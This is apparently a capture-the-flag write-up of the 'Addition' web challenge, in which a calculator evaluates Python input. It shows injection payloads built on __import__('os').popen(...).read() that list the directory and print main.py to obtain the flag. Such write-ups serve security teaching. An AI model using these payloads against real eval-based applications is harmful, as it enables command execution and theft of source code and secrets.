


# Challenge Name : Addition

#Description : 

Joe is aiming to become the next supreme coder by trying to make his code smaller and smaller. His most recent project is a simple calculator which he reckons is super secure because of the "filters" he has in place. However, he thinks that he knows more than everyone around him. Put Joe in his place and grab the flag.

## The web page

The challenge presents us with a webpage which says the following : 

```
My mega calculator can do any calculations python will let you do. Use * + - / % to do complex problems if you want.
```

So it seems that there can be some type of code execution in the calculation box.



## Code execution

My team-mate had already found that there is code execution in there. For reference I will link his writeup at the end.

When you write the following : 

```
__import__('os').popen('cat flag.txt')
```
It gives us the following result : 

```
<os._wrap_close object at 0x7ff929ffc280>
```

It means that the process is executed, but we are not able to view it. So, we need the `read()` method to actualy view the contents of the process executed.

```
__import__('os').popen('cat flag.txt').read()
```

Upon using this, we cannot find anything there. This can mean that there is no `flag.txt` file. So I listed the contents of the directory.

```
__import__('os').popen('ls -la').read()
```

The following result is given

```
total 24 drwxr-xr-x 1 ctf ctf 4096 Sep 20 12:08 . drwxr-xr-x 1 root root 4096 Sep 20 12:08 .. drwxr-xr-x 2 ctf ctf 4096 Sep 20 12:08 __pycache__ -rw-r--r-- 1 root root 1403 Sep 20 02:12 main.py -rw-r--r-- 1 ctf ctf 202 Aug 16 16:49 prestart.sh drwxr-xr-x 2 root root 4096 Sep 20 02:16 templates
```

I tried to check the source code of the script that is running eveything. 

```
__import__('os').popen('cat main.py').read()
```

It turns ou there the flag was inside the `main.py` file




**For Reference check out my teammate's writeup as he had solved most of the challenge, before I used the final payload**


